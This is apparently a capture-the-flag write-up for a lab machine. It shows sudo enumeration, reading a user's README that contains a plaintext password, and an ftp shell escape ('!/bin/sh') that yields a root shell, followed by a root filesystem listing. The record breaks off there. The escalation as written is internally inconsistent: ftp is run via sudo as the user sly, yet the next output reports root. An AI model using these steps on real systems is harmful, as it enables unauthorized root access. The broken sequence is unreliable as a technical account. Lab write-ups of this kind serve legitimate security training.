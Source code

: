 I executed the command to list my sudo privileges:

```
blood@firstblood:/home/sly$ sudo -l
```

The output indicated that I could run commands as the user `sly`. I then used the following command to read the `README.txt` file in `sly`'s home directory:

```
blood@firstblood:/home/sly$ sudo -u sly cat /home/sly/README.txt
[sudo] password for blood: 
```

**Contents of `README.txt`:**
```
In case I forget, my password is: SylvesterStalone

PS -- I think root gave us sudo privileges. I think this might be dangerous though because I found a website: https://gtfobins.github.io/

It shows a possible privilege escalation for root. I'm totally going to check out root's files. hint hint
```

With the password for `sly` in hand, I decided to escalate privileges to root. I executed the following command to run FTP as the user `sly`:

```
sly@firstblood:~$ sudo -u sly /usr/bin/ftp
[sudo] password for sly: 
```

Once in the FTP shell, I executed a shell command to gain root access:

```
ftp> !/bin/sh
# whoami
root
```

I confirmed that I had root privileges:

```
# whoami
root
```

I then navigated through the file system to explore the contents of the root directory:

```
# cd ../
# ls
bin    dev   initrd.img      lib64	 mnt   root  srv       tmp  vmlinuz
boot   etc   initrd.img.old  lost+found  opt   run   swapfile  usr
cdrom  home  lib	     media	 proc  sbin  sys       var
```

I accessed the root's home directory:
